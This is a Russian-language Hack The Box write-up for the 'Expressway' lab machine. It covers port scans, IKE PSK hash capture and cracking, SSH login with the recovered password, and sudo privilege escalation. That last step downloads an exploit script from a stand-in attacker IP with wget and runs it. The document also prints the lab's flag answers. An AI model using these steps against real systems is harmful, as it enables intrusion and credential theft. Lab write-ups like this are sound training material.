 # 📝 Write-up: Expressway (Hack The Box)

Difficulty: EasyPlatform: Hack The BoxTarget IP (Lab): 10.10.11.87Link: Expressway @ HTB  

## 🎯 Summary
Expressway — легкая Linux-машина на Hack The Box. Основные этапы:  

* Первичный доступ: Эксплуатация уязвимости IKE VPN (PSK-аутентификация).  
* Горизонтальная эскалация: Брутфорс PSK для получения учетных данных пользователя ike.  
* Эскалация до root: Эксплуатация уязвимой версии sudo (CVE-2025-52352).


### 🔒 Prerequisites

Это write-up для учебной среды Hack The Box. Не используйте против реальных систем!  
Убедитесь, что IP 10.10.11.87 доступен в вашей лабораторной сети.  
Замените <YOUR_IP> на IP вашей атакующей машины, если потребуется обратный шелл.


### 🔍 Reconnaissance
Сканирование портов
Запустил сканирование с помощью nmap для обнаружения открытых портов и сервисов:  
```
nmap -sC -sV -Pn 10.10.11.87

Результат:  
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 10.0p2 Debian 8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
UDP-сканирование:  
sudo nmap -sV -sU 10.10.11.87

Результат:  
PORT     STATE         SERVICE   VERSION
68/udp   open|filtered dhcpc
69/udp   open          tftp      Netkit tftpd or atftpd
500/udp  open          isakmp?
4500/udp open|filtered nat-t-ike
```

### 🕵️ Enumeration
IKE VPN (порт 500/udp)
Обнаружен IKE VPN на порту 500/udp. Проверил с помощью ike-scan:  
ike-scan -M 10.10.11.87

Результат:  
10.10.11.87    Main Mode Handshake returned
        HDR=(CKY-R=cafb0b8cafb3ba5a)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Нашел PSK-хэш и сохранил его в файл expressway_hash.txt:  
9c261863d58af7ab93251af8ad92210554240953dd0f8bafd663315d7c29a27a4a847d8a93c607ee8294930d6b4ae0091d423b12e8c22c0a0d9d6e76c0ec980f36824a26ac9d5d46d80ab1d5c6570059e33e748db9da5d1bf11979e7c74d4d4560d6dafa39d6dc9c60f677cd646175d91995bfa17d755668cb2051267464c4b2:8700f898db0322ac21f5bfeb912134c5eafab352072f74f2b651f465840dfdab2dc2de63f08b3ff67776398382fbb9d5701ff967a99c0ad4e3d6844b5a18b7ebb3dec6f79069cd46f7a6a8c70c56924b90233e97e3598cfe149f3aa4972f466892e0220358d4a0caddebfa9b6d9fd51716cdf36d22b65abcc24dbea351ae5956:df853e76cc0e1a92:eb268ade151021e0:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:cf34dd472d6b434c73d6e0ed4f881b2a8bb3415e:ff1f67ec60cbe57ccd257bfcb681f7d381eb2a1476816501de70b66d08079641:e15c87caec0c2b87336238542e86a691e121d7ac


### 🛠️ Exploitation
Брутфорс PSK
Использовал psk-crack с словарем rockyou.txt для подбора PSK:
```bash  
psk-crack -d /usr/share/wordlists/rockyou.txt expressway_hash.txt
```
Результат:  
key "freakingrockstarontheroad" matches SHA1 hash e15c87caec0c2b87336238542e86a691e121d7ac
Время: 11.176 секунд (719871.55 итераций/сек)

* Доступ по SSH
Использовал полученный пароль для подключения под пользователем ike:  
```bash
ssh ike@10.10.11.87
Password: freakingrockstarontheroad
```
Вывод:  
```bash
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64
Last login: Wed Sep 17 10:26:26 BST 2025 from 10.10.14.77
```

#### 🏴 User Flag
Прочитал флаг user.txt:  
cat user.txt
740745a467294d55f8189932b4a1865d


### 🔝 Privilege Escalation
Проверка системы
Проверил версию ОС:  
uname -a
Linux expressway.htb 6.16.7+deb14-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.16.7-1 (2025-09-11) x86_64 GNU/Linux

Проверил версию sudo: 
```bash 
sudo -V
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

#### Эксплуатация CVE-2025-52352
* Нашел уязвимость в версии sudo 1.9.17: CVE-2025-52352.  
Скачал и выполнил PoC:  
wget http://<YOUR_IP>:8000/cve-2025-52352.sh -O /tmp/exploit.sh
chmod +x /tmp/exploit.sh
/tmp/exploit.sh

* Получил root-доступ и прочитал root.txt:  
```bash
cat /root/root.txt
b7a4b7a4b7a4b7a4b7a4b7a4b7a4b7a4
```

### 📌 Conclusion
Expressway — отличная машина для изучения эксплуатации IKE VPN и уязвимостей sudo.
Спасибо за чтение! Надеюсь, этот write-up поможет в освоении пентеста.